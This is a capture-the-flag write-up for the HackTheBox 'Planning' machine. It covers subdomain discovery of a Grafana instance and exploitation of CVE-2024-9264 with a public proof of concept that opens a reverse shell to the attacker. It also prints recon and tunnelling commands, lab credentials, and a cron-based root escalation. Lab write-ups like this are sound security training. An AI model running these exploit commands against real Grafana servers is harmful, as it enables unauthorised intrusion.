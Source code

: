 # Planning Machine Writeup

The nmap scan gives us two open ports; SSH (Port 22) and nginx web server (Port 80).
nmap -sCV -T4 10.10.11.68
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image002.png)

Upon enumeration of the directories on the web server, nothing of significance comes up.
gobuster dir -u http://planning.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 --timeout 20s -x html,php
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image004.png)

So, ffuf is used to look for any subdomains the web page might have, and it comes up with Grafana.planning.htb.
ffuf -w ../../seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb -H "Host:FUZZ.planning.htb" -fc 301 -t 100
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image005.png)
 
After discovering the subdomain grafana, it is appended to the hosts file, so we’re able to access it. 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image007.png)

Going into the webpage, we see it runs V11.0.0 which is vulnerable to RCE (CVE-2024-9264).
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image009.png)
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image011.png)
 
We then use an exploit found on github by z3k0sec, which allows us to RCE into the system using reverse shell.
Git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image0013.png)

The script is then executed and a listener is set up.

Note: To run the script, you will have to install the requests module through pip (pip install requests), in a python virtual environment.

python3 poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.131 --reverse-port 1234

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image015.png)
  
Upon gaining access to the system, we are root but this user doesn’t contain either of the flags, so linPEAS is ran to look for any sensitive information.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image017.png)

Upon running linPEAS, the password for the user ‘enzo’ is obtained.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image019.png)

Able to SSH into enzo, the user flag is obtained.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image021.png)

linPEAS is ran again, this time in enzo’s user to look for any sensitive files. After which we see some database files.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image023.png)

Exploring the crontab.db, we find a password for the root user. Looking for active connections, we see a webserver being hosted at port 8000.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image0025.png)

Using SSH tunnelling we host it in our own machine, at port 8001. It requires a username and password, available from the crontab.db database.
ssh -L 8001:localhost:8000 enzo@10.10.11.68
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image027.png)

The website functions as a cronjobs simulator, executing tasks at a certain time as root. From here we can privilege escalate the enzo’s user as sudo, gaining root privileges.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image029.png)

After obtaining privileges we are able to obtain the root flag.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image031.png)
